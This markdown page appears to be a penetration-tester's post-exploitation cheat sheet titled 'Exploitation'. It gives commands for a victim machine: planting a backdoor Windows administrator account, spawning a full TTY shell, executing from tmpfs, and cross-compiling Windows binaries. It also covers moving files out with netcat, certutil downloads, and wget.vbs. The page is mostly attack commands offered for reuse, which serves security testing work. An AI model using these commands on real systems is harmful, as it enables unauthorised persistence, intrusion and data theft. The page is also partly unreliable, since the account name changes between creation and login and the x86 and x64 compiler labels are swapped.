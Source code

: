 ```yaml
---
title: Exploitation
---
```


[Home](./)

_Ensuring you don't have to re-exploit over and over again_

## Creating Windows Admin Account
```bash
# Victim
net user /add jack sparrow
net localgroup administrators jack /add

# Connect with
rdesktop -u jim -p sparrow [IP-ADDRESS]
```

## Executing in Memory - TMPFS

```bash
mount | grep ^tmp

# Example:
# tmpfs on /dev/shm type tmpfs (rw,nosuid,nodev)
# tmpfs on /tmp type tmpfs (rw,nosuid,nodev)
#
# Beware of the "noexec" flag; executing programs will fail
```

## Get full TTY shell
```bash
python -c 'import pty; pty.spawn("/bin/bash")'
```

## Switch user

`su $USER`
`sudo -u $USER $cmd`

### Using Python Scripts without Python installed
[PyInstaller](https://github.com/pyinstaller/pyinstaller) <sup><sub>[[archive](assets/files/PyInstaller-3.6.zip)]
```bash
pyinstaller yourprogram.py
```

## Cross-compiling for Windows

#### C & C++

```bash
# Setup
apt install mingw-w64

# x86
x86_64-w64-mingw32-gcc [src.c] [-libraries] -o [dst]
i686-w64-mingw32-gcc [src.c] [-libraries] -o [dst] -lws2_32

# x64
i686-w64-mingw32-gcc [src.c] [-libraries] -o [dst]
```

#### C#

```bash
# Setup 
# Add repo with https://www.mono-project.com/download/stable/
sudo apt-get install mono-complete msbuild mono-roslyn

# Building
msbuild [src.sln]
```

## Exfiltration

+ SSH Copy (scp)
```
scp user@hostname:/path/to/src user@hostname:/path/to/dst
```

+ Netcat
```bash
# Victim
nc -nvlp $RPORT > out.file

# Attacker
nc -nv $RHOST $RPORT < in.file
```

+ exe2bat
```
# Convert a windows executable to a copy and paste set of commands
wine $(locate exe2bat.exe) nc.exe nc.txt
```

+ certutil.exe
```
certutil.exe -urlcache -split -f “$URL” $FILENAME
```

+ [zip.vbs](assets/files/zip.vbs) <sup><sub>[[copy&paste](assets/files/zip.vbs.txt)]
```bash
CScript zip.vbs $SRC $DEST
```

+ [wget.vbs](assets/files/wget.vbs) <sup><sub>[[copy&paste](assets/files/wget.vbs.txt)]
```bash
CScript wget.vbs $SRC $DEST
```